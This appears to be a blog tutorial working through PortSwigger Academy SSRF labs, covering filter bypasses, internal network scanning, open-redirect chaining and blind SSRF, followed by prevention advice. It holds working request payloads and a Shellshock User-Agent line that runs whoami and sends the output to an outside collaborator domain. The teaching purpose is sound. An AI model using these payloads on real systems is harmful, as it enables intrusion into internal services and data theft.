



This blog post will cover server-side request forgery (SSRF) attacks. Along the way we will be covering what a SSRF is, take a look at the basics of a SSRF attack, discuss several more advanced SSRF attacks and learn about the ways to prevent your web application of being vulnerable to these types of attacks. While analyzing the topic, we will be going through several easy and more advanced labs, which are available for free at [PortSwigger academy](https://portswigger.net/web-security/ssrf).

## What is Server-Side Request Forgery (SSRF)?
SSRF is a type of attack in which an attacker abuses a misconfiguration of a web application in order to make the application access resources that it usually is not supposed to access. Examples of SSRF are the manipulation of a web application to access internally available resources by making it connect to localhost (127.0.0.1) instead of the URL it is trying to access, or make the server connect to a remote server that is owned by the attacker in order to exfiltrate sensitive data or in specific cases perform arbitrary command execution. This will make more sense when looking at a basic example.

### Basic SSRF Attack Example
The following example illustrates a web shop that has a built-in functionality which checks its available stock by fetching data from an internal system. When we check the stock, we can see that the web applicatoin sends the following request to the back-end server:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a02001c049e24b3c0ee7779001c0063.web-security-academy.net
[...]

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

The POST request contains a stockApi parameter with the URL-encoded value of http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1. This is where the vulnerability arises. If we can somehow make the back-end server connect to a remote server that we control, or to itself on localhost, we can possibly exfiltrate sensitive information. 

In this lab, the web application contains an /admin page that is only accessible locally. Let's try to access this page by manipulating the POST request. We use BurpSuite to intercept the request, and change the stockApi to localhost/admin.

```HTTP
POST /product/stock HTTP/1.1
Host: 0a02001c049e24b3c0ee7779001c0063.web-security-academy.net
[...]

stockApi=http%3a//localhost/admin
```

The server responds with HTTP 200 OK. If we right click on the response and select "show response in browser", we can navigate to the page that we were not able to access remotely. Unfortunately, we cannot navigate through this page, because it will see that we are not connecting from localhost. When trying to delete a user, we create the following request:

```HTTP
GET /admin/delete?username=carlos HTTP/1.1
Host: 0a02001c049e24b3c0ee7779001c0063.web-security-academy.net
[...]
```

At which the server replies with the following:

```HTTP
HTTP/1.1 401 Unauthorized
```

Meaning we can't delete the user. We can bypass this by understanding how the web application works, and using its workings to our advantage. When sending a POST request to /product/stock to retrieve the available stock, the server will (under water) send a GET request to the web page specified in the stockApi parameter. This means that if we change the stockApi URL to "http://localhost/admin/delete?username=carlos", chances are we will be able to delete the carlos user. Let's give it a try:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a02001c049e24b3c0ee7779001c0063.web-security-academy.net
[...]

stockApi=http%3a//localhost/admin/delete%3fusername%3dcarlos
```

At which the server responds with:

```HTTP
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=ZEH96kiZlBYxaqEL5mxcnMGe7iCkh8mz; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

After which the server deletes the Carlos user!

The example above is of course staged, but you can imagine that this vulnerability can lead to sensitive information disclosure when present within a web application. 

## Common  SSRF Attacks
Let's go through some more common examples, to ensure that you will have some deeper understanding of the topic. In this section we will be taking a look at how we can enumerate web services to find sensitive endpoints and how to bypass several SSRF filters. 

### Internal Network Mapping through SSRF
We can leverage a similar attack as the one presented above, when dealing with web applications on IP-addresses that we cannot access from outside of the network. Additionally, we can use SSRF to connect to web applications on ports that are not opened to the external network. In this example, we will be abusing a similar stock check feature in order to scan the internal 192.168.0.x network to find an admin interface that is not reachable externally. Let's take a look at the request:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a6400fc03920661c0048c3900bf0036.web-security-academy.net
[...]

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Similar to before, we see the following request. When trying to access the /admin page at the 192.168.0.1 address:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a6400fc03920661c0048c3900bf0036.web-security-academy.net
[...]

stockApi=http%3a//192.168.0.1%3a8080/admin/delete%3fusername%3dcarlos
```

The server replies with HTTP 400 Bad Request:

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"Missing parameter"
```

Let's send this request to the intruder, and map the internal network. We use the sniper attack type, and the following intruder payload positions:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a6400fc03920661c0048c3900bf0036.web-security-academy.net
[...]

stockApi=http%3a//192.168.0.§1§%3a8080/admin/delete%3fusername%3dcarlos
```

Next, we set the following payload sets and options:

<p>
	
</p>

When sorting through the results, we can see several status code 500's and 400's, but only one status code 302. When looking at this request, we can see that it sent a request to 192.168.0.235, and received the following redirect response:

```HTTP
HTTP/1.1 302 Found
Location: http://192.168.0.235:8080/admin
Connection: close
Content-Length: 0
```

After which the user was deleted, thus the attack was executed succesfully. Through this method it is possible to map both internal IP-addresses and ports that are not accessible remotely. 

### SSRF Blacklist Bypasses
When web developers require this functionality within their application but are aware of its dangers, they often implement blacklist based protection mechanisms. Some of these involve input sanitization for hostnames such as 127.0.0.1 or localhost, others blacklist specific endpoints that should not be accessible. Some ways of circumventing these filters are the following:

- Using an alternative IP representation of 127.0.0.1. This can be in the form of a decimal number such as 2130706433 or 017700000001, or by not supplying the 0's, as they are not required for routing purposes, thus by specifying: 127.1
- By URL-encoding (several times) or trying several case variations (LoCAlHoST) of the same payload.

In this example we will be taking a look at how to bypass two weak anti-SSRF defenses. The server once again generates the following POST request:

```HTTP
POST /product/stock HTTP/1.1
Host: 0ac000d004fd595ac0e45b6000c100be.web-security-academy.net
[...]

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

We send it to the repeater, and try to connect to localhost/admin, like so:

```HTTP
POST /product/stock HTTP/1.1
Host: 0ac000d004fd595ac0e45b6000c100be.web-security-academy.net
[...]

stockApi=http%3a//localhost/
```

At which the server responds with an HTTP 400 Bad Request:

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 51

"External stock check blocked for security reasons"
```

Let's first try to access the local address, by using the 127.1 bypass:

```HTTP
POST /product/stock HTTP/1.1
Host: 0ac000d004fd595ac0e45b6000c100be.web-security-academy.net
[...]

stockApi=http://127.1/
```

At which the server responds with HTTP 200 OK, indicating that we managed to bypass this check. Next, we need to access the admin interface. Let's try accessing it without additional obfuscation:

```HTTP
POST /product/stock HTTP/1.1
Host: 0ac000d004fd595ac0e45b6000c100be.web-security-academy.net
[...]

stockApi=http://127.1/admin
```

But it blocks us, again:

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 51

"External stock check blocked for security reasons"
```

Let's URL-encode the "admin" section of our payload like so:

```HTTP
POST /product/stock HTTP/1.1
Host: 0ac000d004fd595ac0e45b6000c100be.web-security-academy.net
[...]

stockApi=http://127.1/%61%64%6d%69%6e
```

But we get blocked, again. Let's try a double URL encode:

```HTTP
POST /product/stock HTTP/1.1
Host: 0ac000d004fd595ac0e45b6000c100be.web-security-academy.net
[...]

stockApi=http://127.1/%2561%2564%256d%2569%256e
```

After which the server responds with HTTP 200 OK, indicating that we managed to bypass the filter. Now let's add the parameter required to delete the carlos user:

```HTTP
POST /product/stock HTTP/1.1
Host: 0ac000d004fd595ac0e45b6000c100be.web-security-academy.net
[...]

stockApi=http://127.1/%2561%2564%256d%2569%256e/delete%3fusername%3dcarlos
```

After which the Carlos user gets deleted, and we complete the lab. 

### SSRF Whitelist Bypasses
Instead of telling the web application to not allow specific payloads, web developers can also use a more safe approach, which is the white listing approach. By white listing several allowed payloads, the developer can control what input is allowed, thus minimize the attack surface of the application. 

Attackers can use several URL specification features that are liable to be overlooked when implementing white listing. These examples are copied from the "SSRF with whitelist-based input filters" section from PortSwigger Academy, which is available [here](https://portswigger.net/web-security/ssrf):

- You can embed credentials in a URL before the hostname, using the @ character. For example:
	- https://expected-host@evil-host
- You can use the # character to indicate a URL fragment. For example:
	- https://evil-host#expected-host
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
	- https://expected-host.evil-host
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
- You can use combinations of these techniques together.

Let's take a look at an example in which we leverage the techniques listed above in order to bypass a white listing mechanism and exploit an SSRF vulnerability that allows us to access the administrative portal and delete the "Carlos" user. 

By default, the following request is sent to the server:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a8000f904b6e848c0130d7200be0099.web-security-academy.net
[...]

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

When we alter the request to for example http://localhost/, we see the following response:

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"
```

Indicating that the web application is checking for a hostname that is equal to stock.weliketoshop.net. When applying several white listing techniques as listed above, we can see that the following payload is accepted by the server:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a8000f904b6e848c0130d7200be0099.web-security-academy.net
[...]
stockApi=http://localhost@stock.weliketoshop.net:8080/
```

As the server responds with an HTTP 400 Bad Request, indicating that we are missing a parameter:

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"Missing parameter"
```

Let's try to add our delete user payload to the request:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a8000f904b6e848c0130d7200be0099.web-security-academy.net
[...]

stockApi=http://localhost@stock.weliketoshop.net/admin/delete?username=carlos
```

At which the server responds with an internal server error:

```HTTP
HTTP/1.1 500 Internal Server Error
```

Indicating that the request is being parsed. Let's add a # character to our payload.

```HTTP
POST /product/stock HTTP/1.1
Host: 0a8000f904b6e848c0130d7200be0099.web-security-academy.net
[...]

stockApi=http://localhost#@stock.weliketoshop.net/admin/delete?username=carlos
```

At which the server responds with:

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"
```

Indicating that we are once again not adhering to the whitelist. I try to URL-encode the # character once, but it is still rejected. In order to bypass it, we double URL-encode the # character, like so:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a8000f904b6e848c0130d7200be0099.web-security-academy.net
[...]

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

At which the server responds with:

```HTTP
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=kZm0NzHx6qTMqdR7E5an5t2JuvAixYyn; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

And we manage to beat the whitelist. 

### SSRF via Open Redirection
In cases where proper sanitization, whitelisting or blacklisting is applied and SSRF payloads within the main URL are all rejected, it might be possible to leverage an open redirect vulnerability in order to still get an SSRF payload to work. An open redirect vulnerability occurs when an application allows a user to control a redirect or forward to another URL. If the app does not validate untrusted user input, an attacker could supply a URL that redirects an unsuspecting victim from a legitimate domain to a domain that is controlled by the attacker. 

Let's take a look at an example in which we leverage an open redirection vulnerability to bypass SSRF filters. Our objective is to access admin interface available at 192.168.0.12:8080/admin, and delete the "carlos" user. When looking at the stock availability feature, we can see that there is no open redirect vulnerability present:

```HTTP
POST /product/stock HTTP/1.1
Host: 0a7400ae04dfc5a5c118824200070002.web-security-academy.net
[...]

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Let's navigate through the web page. When moving to the next item, we can see that the following request is sent to the server.

```HTTP
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/1.1
Host: 0a7400ae04dfc5a5c118824200070002.web-security-academy.net
[...]
```

Within this request, we can see that path parameter, specifying /product with a productId of 2. Let's see if we can leverage this path parameter to redirect us to a location of our choosing. 

```HTTP
GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin HTTP/1.1
[...]
```

At which the server responds with:

```HTTP
HTTP/1.1 302 Found
Location: http://192.168.0.12:8080/admin
Connection: close
Content-Length: 0
```

Indicating that the redirect works. Let's use the POST request to the stockApi to forge a request to access the admin page and delete the "carlos" user.

```HTTP
POST /product/stock HTTP/1.1
Host: 0a7400ae04dfc5a5c118824200070002.web-security-academy.net
[...]

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

And we managed to succesfully delete the carlos user.

### Blind SSRF
When an SSRF vulnerability is present, but the response of the backend request will not be returned to the frontend user, we speak of a blind SSRF vulnerability. As the user will not be able to spot the response from the server, we require different methods of detecting this type of vulnerability. One of the easiest methods is to let the backend server send a request to a domain the attacker owns, and use that server to exfiltrate sensitive data. Let's take a look at an example in which we exploit a blind SSRF through out-of-band techniques. 

Our lab contains a website that uses analytics software that fetches the URL specified in the referer header when a product page is loaded. We will be playing with the referer header to make the server send an HTTP request to a domain that we own, in order to spot the vulnerability. When loading a product, we send the following request:

```HTTP
GET /product?productId=2 HTTP/1.1
Host: 0a330025044e079cc003240c00320055.web-security-academy.net
[...]
Referer: https://0a330025044e079cc003240c00320055.web-security-academy.net/
[...]
```

Let's launch a BurpSuite collaborator server to listen for connections. We do this by navigating to "Burp --> Burp Collaborator Client" and copying the domain. For this technique to work, you require BurpSuite Professional. We add the domain to the Referer header, like so:

```HTTP
GET /product?productId=2 HTTP/1.1
Host: 0a330025044e079cc003240c00320055.web-security-academy.net
[...]
Referer: http://4joauuj4t3hqui50u0sc4jveh5nvbk.oastify.com
[...]
```

And we poll the server for a response, which we get:

<p>
	
</p>

Simply being able to let a server reach out to a domain that you own does not mean the server is actually exploitable, as we cannot see the response, thus cannot easily exfiltrate data from the server. We can still leverage this blind SSRF to test for common payloads, to see if the backend server is vulnerable to any well-known exploits. In this example, we craft a Shellshock payload to make the server return the name of the server that is running the web application. First we need to map the internal network, to find out what systems we can reach. Next, we need to craft a shellshock payload that will return the whoami command. For more information on the Shellshock exploit, you can visit [this blog post](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/), which explains the nature of the vulnerability and how to work with it. 

To map the internal network and exploit the Shellshock vulnerability, we will use the intruder with the following payload positions.

```HTTP
GET /product?productId=2 HTTP/1.1
Host: 0adb009c0495b8a0c0551e9600d900f8.web-security-academy.net
[...]
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).bkzhv1kbuaixvp67v7tj5qwlico5cu.oastify.com
[...]
Referer: http://192.168.0.§x§:8080
[...]
```

We will be using the sniper payload, and set the payload options to a similar configuration as we did before:

<p>
	
</p>

Next, we set up the BurpSuite collaborator client again, and send the shellshock payload and observe the response:

<p>
	
</p>

And we managed to obtain remote code execution. Through this payload, we could exfiltrate data or take over the entire server by crafting a reverse shell payload and have it executed through the shellshock vulnerability. The method described above can of course be leveraged in a more extensive attack chain to test more well-known vulnerabilities. 

## How to Prevent SSRF Vulnerabilities
We can't end a blog post without going through some common best-practices that we can use to prevent SSRF vulnerabilities in the first place. To do so, we can leverage the following methods:

1. As with all forms of injection, we should make sure that we do not trust user input. Always make sure to first sanitize and then validate user input regardless of where it comes from. Remove bad characters, standardize input etc.
2. Implement allowlists that validate IP-addresses and DNS names, in order to ensure that only connections to known servers are allowed. 
3. Enforce URL schemas. Make sure the web application only connects to https if it needs to connect to an https server, and disallow ftp://, file://, http:// or any other URL schemas that are unnecessary for the workings of the application.
4. Implement threat/intrusion detection software that will alert when a payload is detected within a web request, and implement a web application firewall (WAF) to prevent automated and more sophisticated attacks.
5.  Implement authentication on all services that are running within a network, that could be reached by an attacker if he/she executed a succesful attack. 
6. And of course, keep your web application and underlying operating systems up-to-date.

By implementing the methods described above, in conjunction with the usage of modern web application frameworks, there is no reason to be vulnerable to SSRF attacks anymore. I hope this post was useful for you, and as always, thanks for reading and have a good day!
